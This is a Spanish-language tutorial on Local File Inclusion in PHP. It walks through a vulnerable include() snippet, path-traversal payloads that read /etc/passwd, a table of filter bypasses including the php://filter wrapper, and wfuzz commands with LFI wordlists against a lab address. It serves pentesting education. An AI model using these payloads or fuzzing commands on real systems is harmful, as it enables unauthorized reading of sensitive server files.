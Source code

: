
## 📑 Índice de Contenidos

1. [🔥 Ejemplo vulnerable](#lfi)
2. [❌ ¿Qué hace mal este código?](#mal)
3. [🔍 ¿Cómo sospechamos que puede haber un LFI?](#-cómo-sospechamos-que-puede-haber-un-lfi)
4. [🔁 Bypasses comunes](#-bypasses-comunes)
5. [🤖 Automatizando con `wfuzz`](#-automatizando-con-wfuzz)
6. [🔎 Caso práctico: LFI en `login.php`](#-caso-práctico-lfi-en-loginphp)



<a name="lfi"></a>
🗂️ LFI (Local File Inclusion)
Una mala configuración en una aplicación web puede permitir al atacante incluir archivos del sistema, revelando información sensible. A continuación, un ejemplo típico en PHP:

🔥 Ejemplo vulnerable
```
<?php
// archivo: index.php

if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    include("home.php");
}
?>
```

<a name="mal"></a>
❌ ¿Qué hace mal este código?
Usa directamente $_GET['page'] sin validación.

  -Permite al atacante incluir archivos arbitrarios.

  -Por ejemplo, el siguiente payload puede mostrar el contenido de /etc/passwd en sistemas Linux:
  ```
  http://ejemplo.com/index.php?page=../../../../../../../etc/passwd
  ```

## 🔍 ¿Cómo sospechamos que puede haber un LFI?
URLs como estas son sospechosas:
```
http://victima.com/index.php?page=home
http://victima.com/?template=about
http://victima.com/view.php?file=readme.txt
```
Prueba incluir archivos del sistema:
```
http://victima.com/index.php?page=../../../../../../../etc/passwd
```
🧪 Si es vulnerable, verás algo como:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## 🔁 Bypasses comunes

Si hay validaciones o filtros, intenta con variantes como:

| Técnica                                  | Ejemplo                                                                          |
| ---------------------------------------- | -------------------------------------------------------------------------------- |
| Null byte (en versiones antiguas de PHP) | `../../../../../etc/passwd%00`                                                   |
| Agregar signo de pregunta                | `../../../../../etc/passwd?`                                                     |
| Rutas con doble punto y slash mezclados  | `....//....//etc/passwd`                                                         |
| Wrappers de PHP                          | `php://filter/convert.base64-encode/resource=index.php` (para ver código fuente) |


si quieres saber más de payloads:
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#file-inclusionpath-traversal
```
si quieres saber más de los wrappers:
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/Wrappers/
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols
```

## 🤖 Automatizando con wfuzz

Puedes usar wfuzz con diccionarios específicos para encontrar rutas LFI:
```bash
wfuzz -u "http://target.com/index.php?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulcore.txt
```
Diccionarios útiles:

  -Seclist (dentro de /Fuzzing/LFI)

  -SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

## 🔎 Caso práctico: LFI en login.php

Supón que descubres esta URL:
```bash
http://172.17.0.2/login.php
```
Y sospechas que puede tener un parámetro vulnerable. Primero intentamos descubrir el nombre del parámetro:
```bash
wfuzz -c --hc=404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
👀 Observas que la mayoría de las respuestas tienen 1036 caracteres. Puedes filtrarlas con --hh:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
✅ Esto revela que el parámetro vulnerable es file. Ahora prueba un payload con un diccionario de LFI:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
"http://172.17.0.2/login.php?file=FUZZ"
```
